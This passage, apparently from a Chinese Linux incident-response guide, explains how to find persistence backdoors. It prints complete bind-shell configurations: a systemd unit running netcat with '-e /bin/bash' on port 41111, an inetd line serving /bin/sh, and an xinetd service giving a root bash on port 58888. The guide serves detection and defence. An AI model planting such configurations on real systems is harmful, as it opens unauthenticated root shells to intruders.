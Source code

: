 以下给出一个例子，systemd自启动后门运行的检查过程。

```shell
# 发现开机自启动项存在名为backdoor的服务，同时网络端口上有个nc监听在41111口上。
systemctl list-unit-files --type service |grep enabled
netstat -ntaup

# 查看该service文件发现以下内容，这是一段bindshell指令。
cat /usr/lib/systemd/system/backdoor.service

[Unit]
Description=Just a simple backdoor for test
After=network.target
[Service]
Type=forking
ExecStart=bash -c "nc -l -p 41111 -e /bin/bash &"
ExecReload=
ExecStop=
PrivateTmp=true
[Install]
WantedBy=multi-user.target
```

#### 1.3.2 (x)inetd后门

inetd是早期的超级任务管理程序，后来被xinetd代替。目前不少系统默认没有安装并开启xinetd。但请注意，系统内开启了telnet则一定要检查(x)inetd。

一个典型的inetd后门形如：
```shell
#这是一个bindshell后门
#inetd进程监听着某端口
netstat -ntaup|grep inetd

cat /etc/inetd.conf #发现存在daytime stream tcp nowait /bin/sh sh –I

cat /etc/services |grep daytime #发现daytime服务绑定在(13/*)

```

一个典型的xinetd后门形如：
```shell
#这是一个bindshell后门
cat /etc/xinet.d/safe-guard.xinetd

# default: yes
# description: The safe-guard server servestelnet sessions;
service safe-guard
{
  flags = REUSE
  socket_type = stream
  wait = no
  user = root
  server =/bin/bash
  log_on_failure += USERID
  disable = no
}

cat /etc/services |grep safe-guard
safe-guard      58888/tcp               # CentOS safe-guard master daemon

```
